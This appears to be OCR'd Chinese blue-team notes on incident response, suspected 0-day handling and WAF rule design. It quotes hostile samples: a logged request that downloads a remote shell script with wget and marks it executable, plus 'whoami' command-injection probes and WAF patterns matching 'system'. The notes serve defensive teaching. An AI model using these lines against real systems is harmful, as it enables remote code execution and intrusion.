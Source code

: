 ```
XFF头真实的IP地址 39.1.1.1 阿里云服务器

蠕虫病毒攻击
170.1.1.1（马尼拉） 代码执行攻击  1.1.1.1
169.1.1.1（美国 科纳里来州）远程注入 1.1.1.1
印度美国有僵尸网络
www.baidu.com/?Shell.php wget http://asdsd.ov/wakang.sh chmod +x ./wakang.sh -o 1.1.1.1
404
内网存在可疑外链，员工或者客服部门 电脑存在外链。
看他外链的地址。IP你解析之后 www.2345.com  www.小黑记事本.com 
员工去下载一些软件，软件园去下载，里边会捆包一些流氓软件。他去下载流氓软件 没有经过客户端认证。
下载软件-软件自动请求下载-并且安装程序。
疑似主机被控

应急响应
看进程、查看后门、看注册表、看启动项。X
正确的流程：
首先判断严重程度：看是否已经攻击成功了，如果攻击成功了，隔离主机（隔断和内网重要资产通讯），
判断是什么类型的攻击
第一种：命令执行攻击 回显敏感内容了，记录攻击成功时间，然后去全流量设备去查看这个IP 被攻击时间段有无其他流量对内网传输，4/27 18/44  18、55
11分钟  空白期有没有对内网其他主机进行攻击，排查内网其他主机是否失陷，上机排查，edr 是什么漏洞攻击的 如果是文件上传的，看看是怎么上传的，把上传点修复，如果是后台弱口令。

看进程、查看后门、看注册表、看启动项。

0day防御 分为两种
已知0day未攻击成功
OA 如果有poc去对应漏洞点去封禁
Waf的策略， /oa/yanzheng.jsp?System=whoami
yanzheng.jsp 限制访问这个文件地址 403
当前文件触发位置可更改。Yz.jsp  404
已被攻击怀疑是0day
攻击成功之后，进行扫描了，内网IPS IDS 会告警有攻击。反溯源，查看第一入口点是哪里 40 

0day防御 分为两种
已知0day未攻击成功
OA或者一些框架漏洞 
如果有poc去对应漏洞点去封禁
Waf的策略， /oa/yanzheng.jsp?System=whoami
yanzheng.jsp 限制访问这个文件地址 
当前请求存在危险行为 已被waf拦截
403
WAF的策略是可以设置参数的
/oa/yanzheng.jsp?System=whoami
引用这个文件的时候，如果URL中出现了system字符串的话，对整体数据包进行拦截。
/oa/yanzheng.jsp?System=whoami
当前请求存在危险行为 已被waf拦截
POST /x.shell HTTP 1.0 
Cookie:19993
Context-type:system(“whoami”)
引用这个文件的时候，如果请求包Context-type出现system字符串的话，对整体数据包进行拦截。
当前请求存在危险行为 已被waf拦截
已被攻击怀疑是0day
出现内网扫描了，但是外网服务器并未监测到攻击成功的行为，
10.1.1.1(39.9.9.9（web官网服务器）) ->  代码执行攻击  ->  10.1.1.2 
10.1.1.1  18.02  10.1.1.2 
去看全流量 18.02 之前他的所有流量
全流量设备去匹配text:system

蓝队防守应该着重哪些点去防守
①边缘资产
Baidu.com
111.Baidu.com 系统优化好，做过测评，定期检查，有服务商维护，全部接入安全产品
222.baidu.com
```